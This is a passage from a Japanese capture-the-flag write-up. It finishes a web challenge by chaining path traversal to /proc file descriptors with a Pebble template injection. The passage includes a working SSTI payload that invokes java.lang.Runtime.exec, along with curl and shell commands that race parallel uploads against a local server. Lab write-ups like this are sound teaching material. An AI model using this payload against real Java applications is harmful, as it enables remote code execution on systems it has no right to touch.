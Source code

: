 - `/?x=../../../../proc/1/fd/14&rceFileName=about.pebble`

にアクセスすると`about.pebble`の内容がレンダリングされた:

![](./img/05.png)

良さそう。
なんと、今レンダリングしているテンプレートエンジンはmitigationが吹き飛んでるのでRCEし放題です。

### パート4: SSTI to RCE（結）

RCEの準備が整ったので今度はフラグファイルを実行するテンプレートを用意する。

用意した（`rce.pebble`）:
```
{% set cmd = 'sh;-c;./getflag > /tmp/flag.txt'.split(";") %}
{{ (1).TYPE.forName("java.lang.Runtime").methods[0].invoke(null, null).exec(cmd) }}
```
これがレンダリングされたら`/tmp/flag.txt`にフラグが出力される。

同様に
```
$ seq 50000 | sed 's/^.*$/test/' >> rce.pebble
```
でファイルを巨大化して
```
$ curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./rce.txt & curl --limit-rate 1k -X POST http://localhost:8080 -F a=@./rce.txt
```
を送りつけると、リクエストが2並列に飛ぶので、`rce.pebble`は`/proc/1/fd/14`と`/proc/1/fd/15`に存在することになる。


[^intro-1]: jailカテゴリではpyjailやFirefoxアドオンに関する問題が出題されてました。Firefoxアドオンの問題は見たことがないのでwriteupが手に入ったら復習したいです。他にもsystemsやosintの謎カテゴリもありました。
[^intro-2]: 面倒くさいという観点で難しいということではなく、本質的に解くのが難しく解きごたえがあって良いという意味。
[^intro-3]: Spoinkはポケモンのバネブーの英語名らしい。
[^spoink-1]: 追記: どうやらDALL·EやMidjourneyで生成した画像（絵）らしい。すべての問題に対して絵が用意されていてすごいなと思っていたけど、なるほど。問題文内の"a cute anthropomorphised spring as a line drawing"がAIに投げた文字列に対応している。CTFらしい良い試みだと思う。
[^part2-1]: PHPに関しては「HITCON CTFでPHPやばすぎ問題が出題される → 典型として浸透する」という流れがよくあるイメージなので、Orange氏の[作問リスト](https://github.com/orangetw/My-CTF-Web-Challenges)をチェックしておくのは有用なのではと最近考えてる。